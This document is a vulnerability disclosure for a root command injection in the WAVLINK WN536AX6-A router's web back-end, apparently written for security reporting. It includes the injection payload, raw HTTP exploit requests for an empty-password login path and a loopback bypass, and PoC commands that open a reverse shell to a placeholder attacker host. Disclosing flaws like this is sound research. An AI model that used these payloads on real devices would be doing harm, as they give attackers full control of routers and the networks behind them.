


# WAVLINK WN536AX6-A — Unauthenticated (default-config) OS Command Injection → Root RCE in `ioos` (`wireguard_cli_group`)

| Item | Value |
|---|---|
| Vendor | WAVLINK (`winstar` / Meshlink) |
| Product / Model | WAVLINK WN536AX6-A (AX6000), Model `WN536AX6` |
| Firmware | `M36AX6_V260507_2.0.0-WO-d173724` (file `_WAVLINK_WN536AX6-A_M36AX6_V260507_2.0.0-WO-d173724.bin`) |
| OS / Arch | OpenWrt-based, ARM aarch64, musl libc |
| Vulnerable component | `/bin/ioos` — WAVLINK CSP web back-end (ELF 64-bit aarch64, stripped, no section headers), running as **root** |
| Vulnerability type | OS Command Injection (CWE-78) |
| Sink | `system()` @ `0x41a5c0` — `uci set wgclient.@groups[-1].group_name='<user>'` |
| Exploitation precondition | (a) loopback/SSRF reachability of `ioos:81`, **or** (b) any valid session token — which on a factory-default device is obtainable with an **empty password** |
| Relationship | Sibling of the `openvpn_cli_group` injection (identical root cause, different handler) |

## Overview

The WN536AX6-A web stack is a "front-end + back-end" architecture: `lighttpd` (ports 80/443) proxies every `*.csp` request to `ioos` (`/bin/ioos`), which binds to `127.0.0.1:81` (`inet_addr("127.0.0.1")` @ `0x4040a4`) and runs as **root**. `ioos` dispatches by the `fname`/`opt` query parameters through the `pro_list` table @ `0x43c4c8`.

The handler for `fname=sys` & `opt=wireguard_cli_group` (`sub_41a1d8`) adds a WireGuard client group. It reads the user-controlled `group_name` parameter and embeds it verbatim into a single-quoted `uci` command passed to `system()`:





```
snprintf(buf, "..", "uci set wgclient.@groups[-1].group_name='%s'", group_name);   // 0x41a5a8
system(buf);                                                                       // 0x41a5c0
```

A `group_name` value of `a';CMD;'` breaks out of the single-quoted string and injects an arbitrary OS command that executes with **root** privileges. This is the same flaw as the `openvpn_cli_group` handler — the two handlers share the vulnerable "paste user input into a single-quoted `uci set`" pattern.

Authentication is identical to the openvpn sibling: the dispatcher sets the login flag (`con->login` @ `+0x64`, `0x423cf8`) when `IP-FROM == "127.0.0.1"` (localhost trust — no token, vector **a**), or a valid token is supplied; on a factory-default device the `first_login` login endpoint accepts an **empty password** (vector **b**, fully remote on default config).

## Vulnerability Details (instruction-level)

```
sub_41a1d8 (wireguard_cli_group handler, auth-gated by ldr w20,[x19,#0x64];cmp #1):
  get_param(con, "group_name")                                   ; attacker-controlled
  ...
  0x41a5a8  snprintf(buf, 0x4000,
                     "uci set wgclient.@groups[-1].group_name='%s'", group_name)
  0x41a5c0  system(buf)                                          ; root shell, single-quote context
  0x41a5cc  system("uci commit wgclient")
```

No validation/sanitisation between the getter and the sink. Break-out payload `a';CMD;'` yields `uci set wgclient.@groups[-1].group_name='a';CMD;''`, executed by `sh -c` as root.

**ioos parser quirks (must be respected, same as openvpn sibling):** (1) URI must contain `?`; (2) decoder does not treat `+` as space — use `%20`; (3) `&`/`=` inside the payload must be `%26`/`%3D`; (4) header parser is order-sensitive — `IP-FROM` must precede `Content-Type`.

## Proof of Concept

Same Python EXP as the openvpn case (`wavlink_wn536ax6_ioos_rce.py`), selecting the WireGuard handler with `--opt wireguard_cli_group`.

```bash
# listener on attacker host
ncat -lvnp 4444

# arbitrary command (proof)
python3 wavlink_wn536ax6_ioos_rce.py --host 192.168.1.6 --vector login \
       --password "" --opt wireguard_cli_group --cmd 'id > /tmp/wg_p'

# reverse shell (real hardware)
python3 wavlink_wn536ax6_ioos_rce.py --host 192.168.1.6 --vector login \
       --password "" --opt wireguard_cli_group --shell <LHOST> 4444
```

Raw request (front-door vector, default-config device):

```http
POST /index.csp?token=<token> HTTP/1.1
Host: 192.168.1.6
Content-Type: application/x-www-form-urlencoded
Content-Length: <auto>

fname=sys&opt=wireguard_cli_group&function=set&action=add&group_id=5&group_name=a%27%3Bid%3E/tmp/wg_p%3B%27
```
```json
{ "opt": "wireguard_cli_group", "fname": "sys", "function": "set", "success": 1, "error": 0 }
```
Result on the device: `# cat /tmp/wg_p` → `uid=0(root) gid=0(root) groups=0(root)`.

Loopback/SSRF vector (no token, `IP-FROM` precedes `Content-Type`):

```http
POST /index.csp?token=x HTTP/1.1
Host: 127.0.0.1:81
IP-FROM: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: <auto>

fname=sys&opt=wireguard_cli_group&function=set&action=add&group_id=6&group_name=a%27%3Bid%3E/tmp/wg_pb%3B%27
```
`# cat /tmp/wg_pb` → `uid=0(root) gid=0(root) groups=0(root)`.

## Impact

Full **root** remote code execution via the WireGuard client-group handler — identical impact to the openvpn sibling: total device compromise, credential/config theft, LAN pivot, persistent backdooring. Effectively unauthenticated from the network on factory-default devices (empty password) and via any loopback/SSRF primitive (localhost trust).

## Reproduction Result

Dynamically verified against the firmware emulated with `qemu-aarch64-static` + `chroot`. The injected `id` command executed as `uid=0(root)` through both the loopback-bypass (`IP-FROM: 127.0.0.1`) and the front-door (empty-password login) vectors, on the `wireguard_cli_group` handler.
